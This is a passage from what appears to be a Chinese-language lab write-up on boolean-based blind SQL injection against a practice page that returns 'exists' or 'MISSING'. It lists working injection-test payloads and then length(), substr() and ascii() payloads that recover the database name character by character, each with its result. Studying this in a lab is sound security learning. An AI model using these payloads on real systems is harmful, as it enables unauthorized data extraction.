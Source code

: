 返回信息只有 true 或者 false，没有其他信息，比如：

![](https://img.wukaipeng.com/2023/1007-083346-image-20231007083346432.png)

![](https://img.wukaipeng.com/2023/1007-083414-image-20231007083414517.png)

存在返回 `User ID exists in the database.`，不存在返回 `User ID is MISSING from the database.`

1️⃣ 判断是否存在注入漏洞。

可以通过下列语句判断是否存在注入漏洞：

|      | 语句          | 结果    |
| ---- | -------------- | ------- |
| 1    | `1`              | exists  |
| 2    | `'`            | MISSING |
| 3    | `1 and 1 = 1 #`  | exists  |
| 4    | `1 and 1 = 2 #`  | exists  |
| 5    | `1’ and 1 = 1 #` | exists  |
| 6    | `1’ and 1 = 2 #` | MISSING |



最后 5、6 步骤成立则说明存在字符串注入。

2️⃣ 推断数据库名称

首先利用 `length()` 推断数据库长度

```sql
1' and length(database()) > 10 #
 ❌ MISSING

1' and length(database()) > 5 # 
 ❌ MISSING

1' and length(database()) > 3 #
 ✅ exists

1' and length(database()) = 4 #
 ✅ exists
```

接着利用 `substr()` 和 `ascii()`，逐一推断数据库的字符组成

```sql
1' and ascii(substr(database(), 1, 1)) > 88 # 
 ✅ exists

1' and ascii(substr(database(), 1, 1)) > 98 # 
 ✅ exists

1' and ascii(substr(database(), 1, 1)) > 100 # 
 ❌ MISSING

1' and ascii(substr(database(), 1, 1)) = 100 # 
 ✅ exists
```
